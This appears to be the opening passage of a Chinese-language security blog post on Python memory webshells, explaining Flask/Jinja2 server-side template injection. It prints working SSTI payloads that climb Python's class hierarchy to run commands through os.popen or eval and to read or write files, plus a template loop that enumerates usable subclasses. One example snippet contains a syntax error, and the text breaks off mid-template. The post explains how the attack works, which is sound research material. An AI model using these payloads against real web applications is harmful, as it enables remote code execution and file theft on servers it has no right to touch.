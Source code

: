 # 前言
前段时间在看内存马相关内容时，发现python方面的资料不是很多，感觉可能是python web本来就少没那么热门，能够拿到shell的方法也不多。但是还是在SSTI的漏洞利用基础上探索了一些新姿势。
在 websocket 那节纯纯尝试，实战中几乎没有用。
# SSTI相关
Flask 框架默认使用 Jinja2 作为模板引擎来动态的渲染网页。
关于 SSTI 已经有了不少优秀的文章，这里只是说一下个人理解和折腾。
SSTI 一般的的 Payload 形如（不讨论绕过的情况）：
```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("calc").read()')}}

{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('calc').read()}} 

{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```
 Jinja2 模板引擎中不能直接调用 Python 模块中的方法，但是为了实现动态渲染 Jinja2 模板引擎可以访问一些 Python 中的内置变量和函数，常见的内置变量和函数包括：

- 布尔值: `True` 和 `False`
- 空值: `None`
- 数据类型: `list/[]`, `dict/{}`, `tuple/()`, `set()`
- 函数: `range`以及一些魔术方法

同时在 Jinja2 中，如果在模板中引用了一个不存在的变量，那么会返回一个 `jinja2.runtime.Undefined`对象，而不会触发异常。在P神的《Python 格式化字符串漏洞（Django为例）》一文中提到 SSTI 实际上就是字符串格式化漏洞，如果可以控制被格式化的字符串，就可以通过注入拼接字符串在格式化时访问到内部的变量，对应到 Jinja2 中就需要能够控制模板的内容。
```python
>>> string = 'Hi {user}' + commonds' 2024'
>>> string.format(user='Jack')
'Hi Jack 2024'
>>> b = input()
 {user}
>>> string = 'Hi {user}' + b
>>> string
'Hi {user} {user}'
>>> string.format(user='Jack')
'Hi Jack Jack'
```
所以在上面常见的 Payload 中，都是拿到一个`Object`后，寻找其子类中导入了危险模块或者存在危险方法导致可以直接或者间接调用执行代码/命令。由于 Python 万物皆对象 —— 数字、字符串、元组、列表、字典等所有内置数据类型， 函数 、方法 、 类 、模块，在 Python 中所有的一切都是对象并使用对象模型来存储数据。于是可以通过链式访问 Python 对象的特殊属性和调用魔术方法来寻找可用的子类。
由 @hosch3n 师傅给出的思路：
> 思路一：如果 object 的某个派生类中存在危险方法，就可以直接拿来用
> 思路二：如果 object 的某个派生类导入了危险模块，就可以链式调用危险方法
> 思路三：如果 object 的某个派生类由于导入了某些标准库模块，从而间接导入了危险模块的危险方法，也可以通过链式调用


**寻找导入了危险方法可以直接调用的**
如：文件读写 的一些方法，在 Python3 中重构了** I/O **子系统，所以文件对象变为了 `_io`，先找到基类`_IOBase`，然后寻找其子类`_io._RawIOBase`的子类`_io.FileIO`，利用这个类来读写文件。或者使用`FileLoader.get_data()`
```python
[].__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('C:/Windows/win.ini').read()
[].__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('C:/f.txt','w+').write('string'.encode('utf-8'))

[].__class__.__base__.__subclasses__()[94]['get_data']('','C:/Windows/win.ini')
```
这里可以直接找基类，也可以找到`_io`后遍历子类
```python
{% set tmp = namespace(idx=0, obj=''.__class__.__bases__[0], fs=['_IOBase', 'FileLoader']) %}
{% for k in tmp.obj.__subclasses__() %}
{% for f in tmp.fs %}
{% if f in k.__name__  %}
<li> {{ f }} | {{ k.__class__ }} {{ k.__module__ }} {{ k.__name__ }} | {{ tmp.idx }} </li>
```